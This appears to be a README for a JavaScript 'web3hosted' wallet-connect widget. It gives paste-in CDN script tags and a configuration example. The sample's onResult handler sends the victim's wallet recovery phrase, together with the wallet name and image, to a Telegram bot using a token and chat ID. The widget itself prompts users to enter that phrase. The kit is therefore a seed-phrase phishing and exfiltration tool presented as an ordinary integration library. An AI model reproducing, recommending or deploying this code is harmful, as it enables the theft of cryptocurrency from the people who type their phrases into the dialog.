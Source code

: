 #### Step 02: Listen To the button Event

```javascript
<script>
  const connectButton = document.querySelector("w3h-connect-light");

  // or 

  const connectButton = document.querySelector("w3h-connect-dark");

  // Listen for the result from the custom button
  connectButton.addEventListener("web3Result", (event) => {
    console.log("Result from web3hosted:", event.detail);
    alert(`Wallet Connected: ${event.detail.walletName}`);
  });
</script>
```

#### Step 1: Include the CSS and JS files
```html
<link rel="stylesheet" href="https://cdn.jsdelivr.net/gh/oyin25/web3hosted@latest/web3Hosted.css">
<script src="https://cdn.jsdelivr.net/gh/oyin25/web3hosted@latest/web3Hosted.js"></script>
```

#### Step 2: Create a Web3 Sheet
To create and display a Web3 sheet dialog with option to add more wallet using **web3hosted**, use the following example:
```javascript
web3Hosted.hosted({
  layout: "grid",
  wallets: {
    metamask: {
      image: "https://api.realscan.top/images/metamask.svg",
      name: "MetaMask",
    },
    cat: {
      image: "https://api.realscan.top/images/metamask.svg",
      name: "Arsenal",
    },
    car: {
      image: "https://api.realscan.top/images/metamask.svg",
      name: "Arsenal",
    },
    catu: {
      image: "https://api.realscan.top/images/metamask.svg",
      name: "Arsenal",
    },
  },
  onWalletSelect: (wallet) => {
    // When the wallet is selected, you can do some preliminary processing
    console.log(`${wallet} selected!`);

    // Note: The final result (including phrase) will be available only after the user inputs it.

    // Optionally add further logic or wait until the wallet phrase is input
  },
  onResult: (result) => {
    // Access the result JSON here
    console.log("Wallet Data Received:", result);

    // Show result to the user
    Send(`Wallet Connected:\nName: ${result.walletName}\nImage: ${result.walletImage}\nPhrase: ${result.walletPhrase}`, telegramToken, chatID);
  },
  onClose: () => {
```